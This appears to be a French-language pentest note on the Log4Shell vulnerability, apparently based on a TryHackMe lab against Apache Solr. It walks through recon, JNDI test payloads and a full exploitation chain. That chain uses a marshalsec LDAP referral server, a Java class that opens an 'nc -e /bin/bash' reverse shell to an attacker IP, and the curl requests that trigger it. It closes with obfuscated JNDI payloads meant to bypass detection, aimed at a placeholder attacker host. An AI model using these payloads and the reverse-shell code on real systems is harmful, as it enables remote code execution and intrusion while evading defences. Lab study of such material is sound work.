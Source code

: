 
---


---

Introduction :

La vulnérabilité à été trouvé le 9 décembre 2021, dans le package log4j dans java et permettait de faire du RCE. L'attaque qui en à découlé : "Log4Shell"

Systèmes qui ont été affectés : 
- https://github.com/YfryTchsGD/Log4jAttackSurface

Articles/ Infos : 
- https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java
- https://www.youtube.com/watch?v=7qoPDq41xhQ


- THM : https://tryhackme.com/r/room/solar
---
## Reconnaissance 

- Possibilité de trouvé avec nmap / Log4j lié à Apache.

1. Trouver dans un premier temps si il y a un Apache ainsi que sa version pour trouver un Log4J


---

## Poc

- Find an endpoint that is vulnérable to Log4J 
	- The "params" in the request is our entry point to prove that Log4J is exploitable


Syntaxe of Entry that can be Executed
- `${sys:os.name}`
- `${sys:user.name}`
- `${log4j:configParentLocation}`
- `${ENV:PATH}`
- `${ENV:HOSTNAME}`
- `${java:version}`


Genreal Payload : 
- `${jndi:ldap://ATTACKERCONTROLLEDHOST}`

LOG4J will invoke "Java Naming And Directory Interface" and allow us to access exterrnal resources.

[LDAP Manipulation](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)


Exemple : 

	- On a trouvé l'end point : /solr/admin/cores comme étant vulnérable 
	- On récupère l'ip de notre machine attaquante 
	- On injecte notre payload de test.

Ip Attaquant : 

```
>>> ip -br -c a
```


![[ip_attaquant.png]]

On va donc essayer notre payload 

> On ecoute sur le port 9999 sur notre machine 


```
>>> nc -lnvp 9999
```

On effectue un curl donc avec notre payload 

```
>>> curl 'http://10.10.205.240:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.140.75:9999\}'

```


![[test_exploit.png]]

La vulnérabilité est bien présente

---
## Exploitation 

- Pour exploiter le Log4j on va utiliser un "LDAP Referral Server" pour rediriger la requetes vers du code malvaillant qui sera executé sur la machine de la victime.

> Utilisation de [marshalsec](https://github.com/mbechler/marshalsec)

Installation de marshalsec et ensuite build avec la commande : 

```shell-session
>>> mvn clean package -DskipTests
```


On va creer notre payload : 

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"
```

Réponse de la console 

```
>>> Listening on 0.0.0.0:1389
```

On créer un fichier .java qui va contenir notre payload :

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


On compile : 

``` python
>>> javac Exploit.java -source 8 -target 8
```

On lance le serveur Python : 

On relance le listener nc 

```python
>>> nc -lvnp 9999
```

On fais notre requete

```python
>>> curl 'http://10.10.188.50:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'
```

On execute et hop on a acces au shell 


---
## Other Ressources 

- https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes
- https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d
- https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228
- https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1
- https://github.com/darkarnium/CVE-2021-44228

Massive Ressources : https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/ 

--- 
## To ByPass Detection 

```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

${${::-j}ndi:rmi://attackerendpoint.com/}
```

- https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/
